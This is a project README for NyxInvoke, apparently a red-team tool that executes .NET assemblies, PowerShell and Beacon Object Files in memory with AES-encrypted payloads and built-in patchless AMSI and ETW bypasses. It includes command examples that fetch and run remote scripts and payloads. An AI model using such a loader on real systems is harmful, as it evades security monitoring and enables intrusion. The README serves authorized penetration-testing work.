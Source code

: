 # NyxInvoke

NyxInvoke is a versatile command-line tool designed for executing .NET assemblies, PowerShell commands/scripts, and Beacon Object Files (BOFs) with built-in patchless AMSI and ETW bypass capabilities.

## Features

- Execute .NET assemblies
- Run PowerShell commands or scripts
- Load and execute Beacon Object Files (BOFs)
- Built-in patchless AMSI (Anti-Malware Scan Interface) bypass
- Built-in patchless ETW (Event Tracing for Windows) bypass
- Support for encrypted payloads with AES decryption
- Flexible input options: local files, URLs, or compiled-in data

## Usage

NyxInvoke supports three main modes of operation:

1. CLR Mode (.NET assembly execution)
2. PowerShell Mode
3. BOF Mode (Beacon Object File execution)

### General Syntax

```
NyxInvoke.exe <mode> [OPTIONS]
```

Where `<mode>` is one of: `clr`, `ps`, or `bof`.

### Common Options

- `--base <BASE_URL_OR_PATH>`: Base URL or path for resources
- `--key <KEY_FILENAME_OR_URL>`: AES key file or URL
- `--iv <IV_FILENAME_OR_URL>`: AES IV file or URL

### Mode-Specific Options

1. CLR Mode:
   - `--assembly <ASSEMBLY_FILENAME_OR_URL>`: .NET assembly file or URL
   - `--args <ARGS>...`: Arguments for the executable

2. PowerShell Mode:
   - `--command <COMMAND>`: PowerShell command to execute
   - `--script <SCRIPT_PATH_OR_URL>`: PowerShell script file or URL

3. BOF Mode:
   - `--bof <BOF_FILENAME_OR_URL>`: BOF file or URL
   - `--args <ARGS>...`: Arguments for the BOF

## Examples

### CLR Mode

1. Remote Execution:
   ```
   NyxInvoke.exe clr --base https://example.com/resources --key clr_aes.key --iv clr_aes.iv --assembly clr_data.enc --args arg1 arg2
   ```

2. Local Execution:
   ```
   NyxInvoke.exe clr --key C:\path\to\clr_aes.key --iv C:\path\to\clr_aes.iv --assembly C:\path\to\clr_data.enc --args arg1 arg2
   ```

3. Compiled Execution:
   ```
   NyxInvoke.exe clr --args arg1 arg2
   ```

### PowerShell Mode

1. Remote Script Execution:
   ```
   NyxInvoke.exe ps --script https://example.com/script.ps1
   ```

2. Local Script Execution:
   ```
   NyxInvoke.exe ps --script C:\path\to\script.ps1
   ```

3. Direct Command Execution:
   ```
   NyxInvoke.exe ps --command "Get-Process | Select-Object Name, ID"
   ```

### BOF Mode

1. Remote Execution:
   ```
   NyxInvoke.exe bof --base https://example.com/resources --key bof_aes.key --iv bof_aes.iv --bof bof_data.enc --args "str=argument1" "int=42"
   ```

2. Local Execution:
   ```
   NyxInvoke.exe bof --key C:\path\to\bof_aes.key --iv C:\path\to\bof_aes.iv --bof C:\path\to\bof_data.enc --args "str=argument1" "int=42"
   ```

3. Compiled Execution:
   ```
   NyxInvoke.exe bof --args "str=argument1" "int=42"
   ```

## Test Resources

In the `resources` directory, you'll find several files to test NyxInvoke's functionality:

1. Encrypted CLR Assembly (Seatbelt):
   - File: `clr_data.enc`
   - Description: An encrypted version of the Seatbelt tool, a C# project for gathering system information.
   - Usage example:
     ```
     NyxInvoke.exe clr --key resources/clr_aes.key --iv resources/clr_aes.iv --assembly resources/clr_data.enc --args AntiVirus
     ```

2. Encrypted BOF (Directory Listing):
   - File: `bof_data.enc`
   - Description: An encrypted Beacon Object File that executes the 'dir' command.
   - Usage example:
     ```
     NyxInvoke.exe bof --key resources/bof_aes.key --iv resources/bof_aes.iv --bof resources/bof_data.enc --args "wstr=C:\\Windows"
     ```


## Building

To build NyxInvoke

```
cargo +nightly build --release --target=x86_64-pc-windows-msvc
```
or with compiled-in CLR or BOF data
```
cargo +nightly build --release --features=compiled_bof,compiled_clr
```

## Dependencies

- Rust 1.55 or later
- Various Rust crates (see `Cargo.toml`)

## Notes

- Supports AES decryption for encrypted payloads.
- Can load resources from local files, URLs, or use compiled-in data.
- For BOF arguments, use the format "type=value". Supported types: str, wstr, int, short, bin (base64 encoded).

## Legal Notice

This tool is for educational and authorized testing purposes only. Ensure you have proper permissions before use in any environment.

